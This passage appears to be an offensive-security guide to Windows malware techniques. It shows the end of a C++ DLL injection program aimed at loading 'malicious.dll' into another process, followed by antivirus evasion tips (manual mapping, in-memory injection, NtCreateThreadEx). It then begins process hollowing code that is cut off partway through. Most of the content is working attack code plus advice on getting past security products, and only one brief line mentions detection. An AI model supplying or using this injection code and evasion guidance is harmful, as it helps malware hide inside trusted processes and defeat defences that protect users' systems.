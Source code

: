 ```cpp
    // Clean up
    VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}

int main() {
    DWORD targetProcessId = 1234;  // Replace with the target process ID
    const char* dllPath = "C:\\path\\to\\malicious.dll";  // Replace with the full path to your DLL

    if (InjectDLL(targetProcessId, dllPath) == 0) {
        std::cout << "DLL injection successful!" << std::endl;
    } else {
        std::cerr << "DLL injection failed!" << std::endl;
    }

    return 0;
}
```

#### Detection Mechanisms
Antivirus solutions monitor for calls to functions like `CreateRemoteThread`, `VirtualAllocEx`, and `WriteProcessMemory`, as these are often used in process injection. 

#### Evasion Techniques
- Manual Mapping: Instead of using `LoadLibrary`, which is easily detected, you can manually map the DLL into memory and resolve the imports yourself.
- In-Memory Injection: Don’t write the DLL to disk. Instead, load the DLL directly into memory and execute it from there, making it harder for AVs to detect.
- Custom Stub: Avoid using `CreateRemoteThread`. Instead, use techniques like NtCreateThreadEx, which are less commonly monitored by AVs.

# Process Hollowing

#### How it Works
Process hollowing involves creating a new legitimate process in a suspended state, replacing its memory (the code section) with malicious code, and then resuming the process. The new process appears legitimate to the operating system but is executing malicious code.

This technique is often used by malware to execute under the guise of a trusted process, making it harder for security tools to detect its malicious activity.

#### Basic Example of Process Hollowing
```cpp
#include <windows.h>
#include <iostream>

int HollowProcess(const char* targetProcessPath, const char* maliciousPayloadPath) {
    STARTUPINFO startupInfo = {0};
    PROCESS_INFORMATION processInfo = {0};
    startupInfo.cb = sizeof(startupInfo);

    // Step 1: Start a new process in suspended state
    if (!CreateProcess(targetProcessPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &startupInfo, &processInfo)) {
        std::cerr << "Failed to create process." << std::endl;
        return -1;
    }

    // Step 2: Get the address of the process's base image (PE file)
    CONTEXT context;
```
